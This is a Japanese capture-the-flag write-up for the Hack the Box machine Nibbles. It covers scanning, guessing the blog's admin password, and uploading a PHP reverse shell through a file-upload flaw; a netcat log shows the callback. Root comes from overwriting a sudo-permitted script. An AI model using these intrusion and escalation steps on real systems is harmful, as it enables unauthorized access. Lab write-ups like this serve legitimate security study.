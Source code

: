 ```yaml
---
title: "【Hack the Box write-up】Nibbles"
date:  "2020-06-14"
author:
  - "さんぽし"
description: "【Hack the Box write-up】Nibbles"
draft: false
tags: ["writeup","Hack the Box"]
categories:
  - "security"
---
```


## はじめに
筆者は Hack the Box 初心者です。
何か訂正や補足、アドバイスなどありましたら、コメントか Twitter までお願いします。
[さんぽし(@sanpo_shiho) | Twitter](https://twitter.com/sanpo_shiho)

## cheat sheet

以下で cheat sheet としてツールの使い方などをまとめています。参考にしてください。
[github | sanposhiho/MY_CHEAT_SHEET](https://github.com/sanposhiho/MY_CHEAT_SHEET)

## machineについて
難易度は easy です

![スクリーンショット 2020-06-14 15.33.29.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/6ef7b88f-0f70-dc79-963c-a77031628fc7.png)

評価が低いマシンでした。
~~ちなみに僕も「ん？」って感じました。~~



## nmap 

```
# Nmap 7.80 scan initiated Sun Jun 14 01:12:49 2020 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /home/kali/AutoRecon/results/10.10.10.75/scans/_quick_tcp_nmap.txt -oX /home/kali/AutoRecon/results/10.10.10.75/scans/xml/_quick_tcp_nmap.xml 10.10.10.75
Increasing send delay for 10.10.10.75 from 0 to 5 due to 13 out of 43 dropped probes since last increase.
Nmap scan report for 10.10.10.75
Host is up, received user-set (0.25s latency).
Scanned at 2020-06-14 01:12:50 EDT for 54s
Not shown: 998 closed ports![スクリーンショット 2020-06-14 15.27.54.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/c70eda51-c6d3-4f29-95dc-356558d755a9.png)
![スクリーンショット 2020-06-14 15.27.46.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/1ca9748c-0749-b0f4-8355-745b6e79c3a8.png)

Reason: 998 conn-refused
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 14 01:13:44 2020 -- 1 IP address (1 host up) scanned in 54.58 seconds

```

## 80番
![スクリーンショット 2020-06-14 15.27.54.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/0e3a3060-51ea-79fb-f818-1e98868722eb.png)

![スクリーンショット 2020-06-14 15.27.46.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/b7d5c7aa-5ed2-42b0-e87e-fd6e4e2f773a.png)

## /nibbleblog/を開く

![スクリーンショット 2020-06-14 15.32.02.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/7f2ba659-466d-6cb4-bd49-81ef6f8c09bf.png)

nibbleblog のこの version には File Upload Vulnerability があります
https://www.rapid7.com/db/modules/exploit/multi/http/nibbleblog_file_upload

## gobuster

```
kali@kali:~$ gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -t 40 -x php,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.75/nibbleblog/
[+] Threads:        40
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt
[+] Timeout:        10s
===============================================================
2020/06/14 02:32:21 Starting gobuster
===============================================================
/index.php (Status: 200)
/sitemap.php (Status: 200)
/content (Status: 301)
/feed.php (Status: 200)
/themes (Status: 301)
/admin (Status: 301)
/admin.php (Status: 200)
/plugins (Status: 301)
/install.php (Status: 200)
/update.php (Status: 200)
/README (Status: 200)
/languages (Status: 301)
[ERROR] 2020/06/14 02:33:28 [!] Get http://10.10.10.75/nibbleblog/servlets.txt: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
/LICENSE.txt (Status: 200)
/COPYRIGHT.txt (Status: 200)
[ERROR] 2020/06/14 02:44:32 [!] Get http://10.10.10.75/nibbleblog/xFS.txt: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/06/14 02:44:32 [!] Get http://10.10.10.75/nibbleblog/5260.php: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/06/14 02:44:32 [!] Get http://10.10.10.75/nibbleblog/News_Readers.php: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/06/14 03:13:08 [!] Get http://10.10.10.75/nibbleblog/prag: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/06/14 03:27:14 [!] Get http://10.10.10.75/nibbleblog/DWT-SpectacularRed.php: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/06/14 03:43:26 [!] Get http://10.10.10.75/nibbleblog/t10098.php: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
===============================================================
2020/06/14 03:44:49 Finished
===============================================================

```

## /admin.php開く

Login のフォームが出てきます
他のページを割とくまなく探しましたが、credential が出てこず、数回 login 失敗するとブロックされるため hydra 等も使えません。
default credential も存在しないため、低評価であることから、まさかこれは guess か〜？と思ってぽちぽちしてたら、admin/nibbles で通りました。う〜んこれは厳しい…

（数回 login 失敗するとブロック→hydra 等使えない　= bruteforce しなくてもどこかに credentials があるよって言うメッセージなんだろーな〜と思ったんですけどね…）~~（低評価の由縁はこれか〜）~~

## さっきのFile Upload Vulnerability

https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/

これを参考に以下の php の reverseshell のスクリプトを上げます
https://github.com/pentestmonkey/php-reverse-shell

```
kali@kali:~$ nc -lnvp 1212
listening on [any] 1212 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.75] 55886
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 04:35:30 up  3:27,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
nibbler


```

shell が取れました

## /home/nibbler/personal.zip

/home/nibbler/personal.zip を unzip します

```
nibbler@Nibbles:/home/nibbler$ find personal
find personal
personal
personal/stuff
personal/stuff/monitor.sh
```
monitor.sh と言うのが出てきます（中身はあんま関係ないので割愛

## sudo -l

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -l
sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

```

お👀

## monitor.shを書き換え

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "cat /root/root.txt" > monitor.sh
<er/personal/stuff$ echo "cat /root/root.txt" > monitor.sh                   
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -u root ./monitor.sh
sudo -u root ./monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
b6d745c*****************
```

root.txt が取れました

## 終わりに
う〜ん、login にそこそこの時間を費やしました…
精進します

